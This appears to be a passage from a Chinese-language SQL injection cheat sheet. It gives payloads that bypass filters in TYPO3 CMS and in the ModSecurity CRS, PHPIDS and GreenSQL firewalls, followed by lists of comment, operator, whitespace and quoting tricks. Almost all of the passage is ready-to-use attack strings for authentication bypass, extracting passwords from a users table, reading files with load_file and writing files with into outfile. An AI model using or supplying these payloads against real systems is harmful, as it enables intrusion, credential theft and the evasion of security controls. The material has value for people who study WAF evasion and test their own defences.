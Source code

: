 \3. TYPO3 CMS

```
$val = str_replace(array("'"," ","("),"",$arrFields[$fname]); // basic defence
Bypass: vuln.php?id=1/**/union%a0select/**/1,pass,3`a`from`users`
```

b) WAF绕过示例

\1. ModSecurity CRS 2.0.9

```
1'and 0x61=(/*foo*/SELECT mid(pass,1,1) from users limit 1,1)and'1
1'union/*!select*/pass,load_file(0x123456789)from users-- -
```

\2. PHPIDS 0.6.4

```
foo'!=@a:=0x1 div'1a false != true 　　//auth bypass
　foo'div count(select`pass`from(users)where mid(pass,1,1)rlike lower(conv(10,pi()*pi(),pi()*pi())) )-'0

　a'in(true) and false */*!(true)union#newline select pass`alias`from users where true*/* n'1
```

\3. GreenSQL 1.3.0

检测关键字：union, information_schema, into outfile, current_user, current_date, version

检测函数：mid(), substring(), substr(), load_file(), benchmark(), user(), database(), version()

```
adm' 'in' or 1='1        // auth bypass

'-(1)union(select table_name,load_file('/tmp/test'),@@version

from /*! information_schema.tables */);%00    //select union

'-'' into%a0outfile '/tmp/test   //write to file
```

```
#注释
‘ or 1=1#
‘ or 1=1/* (MySQL < 5.1)
' or 1=1;%00
' or 1=1 union select 1,2 as `
' or#newline
' /*!50000or*/1='1
' /*!or*/1='1

#前缀
+ – ~ !
‘ or –+2=- -!!!’2

#操作符：
^, =, !=, %, /, *, &, &&, |, ||, , >>, <=, <=, ,, XOR, DIV, LIKE, SOUNDS LIKE, RLIKE, REGEXP, LEAST, GREATEST, CAST, CONVERT, IS, IN, NOT, MATCH, AND, OR, BINARY, BETWEEN, ISNULL

#空格
%20 %09 %0a %0b %0c %0d %a0 /**/
‘or+(1)sounds/**/like“1“–%a0-
‘union(select(1),tabe_name,(3)from`information_schema`.`tables`)#

#有引号的字符串
SELECT ‘a’
SELECT “a”
SELECT n’a’
SELECT b’1100001′
```